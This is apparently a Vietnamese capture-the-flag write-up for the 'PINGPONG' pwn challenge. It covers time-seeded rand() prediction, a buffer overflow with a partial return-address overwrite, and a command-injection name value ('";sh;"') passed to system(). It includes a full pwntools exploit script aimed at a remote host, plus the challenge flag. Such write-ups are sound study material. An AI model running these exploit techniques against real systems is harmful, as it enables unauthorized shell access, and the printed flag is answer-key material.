







# PINGPONG

## Checksec:



## IDA

Ta cùng xem chương trình làm gì nhé



Ở hàm main này không có gì đáng chú ý cả



Hàm start game này sẽ sử dụng `rand()` để lấy số ngẫu nhiên rồi xem có chia hết cho 2 không. Nhiệm vụ của chúng ta là phải đoán trúng 20 lần thì sẽ được vào hàm `getname()`



Sau khi vào được hàm `getname()` thì ta được nhập feedback , ở đây có lỗi bof để ta thay đổi được `ret address`



ta thấy trong binary có hàm `system(cmd)` mà ở hàm `getname()` ta được nhập `name` vào biến `cmd` 
để chương trình có thể tạo shell cho chúng ta thì mình set `name = b'";sh;"'` thì `cmd` sẽ thành `echo "";sh;"" > /tmp/pingpong_scoreboard`

Ta biết rằng khi cùng `srand()` thì sử dụng `rand()` trong cùng 1 giây thì sẽ ra số giống nhau. Nên ta sẽ import libc vào solve script rồi chơi game, thắng thì ta sẽ overflow được địa chỉ `ret`



Do không leak được địa chỉ hàm `printff()` nên mình đành chạy vòng lặp.Nhận thấy dù PIE được bật nhưng địa chỉ của hàm luôn kết thúc bằng `0x2a9`, tuy nhiên ta cần phải ghi 2 byte nên mình sẽ để một giá trị mặc định là `0x52ae` (Tăng địa chỉ lên tránh lỗi thanh ghi `xmm1`)

## Solve script

```python
#!/usr/bin/python3

from pwn import *
from ctypes import*


exe = ELF("./pingpong")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

glibc = cdll.LoadLibrary('./libc.so.6')

context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*getname+159

        c
        
        tel $rbp
        p& printff
        ''')
        sleep(1)

while(1):
    if args.REMOTE:
        p = remote('67.223.119.69',5005)
    else:
        p = process([exe.path])

    # STAGE1: GEN BACKUP KEY
    #get rand number


    glibc.srand(glibc.time(None))
    i=0
    p.recvuntil("start...")
    while (i !=20):
        rand_num = glibc.rand()
        check = rand_num % 2
        i =i +1
        if check:
            sla("right ='r': ",b'r')
        else :
            sla("right ='r': ",b'l')
        p.recvuntil("Total hits:")


    sla("Your Name is: ",b'";sh;"')
    #GDB()
    payload = b'a'*0x28
    payload += p16(0x52ae)
    sa("Feedback for the game:",payload)


    try:

        p.sendline(b'echo "ABCD"')

        p.recvuntil(b"ABCD")
        info("GET SHELLLLLLLLLLLLLLLLLLLLLL ")
        p.interactive()
        break

    except Exception as e:
        p.close()

```




sau khi tạo được shell thì ta `ls` không thấy file `flag.txt` đâu. Nghi là bị ẩn nên mình dùng lệnh `ls -la` và ra được file


**FLAG**:`KCSC{R1P_P1N6_P0N6_CL4B_KM4_=((((}`


